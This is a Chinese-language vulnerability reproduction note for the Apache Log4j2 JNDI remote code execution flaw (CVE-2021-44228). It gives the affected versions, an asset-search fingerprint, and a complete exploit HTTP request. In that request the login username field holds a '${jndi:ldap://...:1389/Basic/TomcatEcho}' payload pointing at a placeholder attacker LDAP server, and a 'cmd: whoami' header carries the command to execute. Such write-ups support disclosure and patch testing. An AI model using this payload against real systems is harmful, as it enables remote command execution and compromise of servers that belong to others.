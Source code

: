 # Apache Log4j2 JNDI 远程命令执行漏洞 CVE-2021-44228

## 漏洞描述

Apache Log4j2是一款使用非常广泛的Java日志框架。2021年12月9日，Apache Log4j2爆出存在远程代码执行漏洞，由于Apache Log4j2广泛地应用在各种Web程序中，该漏洞涉及用户量较大，危害性非常之高，漏洞影响版本为2.0~2.14.1。

## 漏洞影响

```
2.0~2.14.1
使用此依赖的JAVA应用
```

## 网络测绘

```
app="Log4j2"
```

## 漏洞复现

参数点发送请求

![image-20220525161318497](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251613541.png)

```
POST /api/2.0/login HTTP/1.1
Host:
Cookie: JSESSIONID_AV=567CEDA964EE4D5DA8B7FC8C90912B01
Content-Length: 86
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
cmd: whoami
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"username":"${jndi:ldap://xxx.xxx.xxx.xxx:1389/Basic/TomcatEcho}","password":"admin"}
```

![image-20220525161339254](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251613331.png)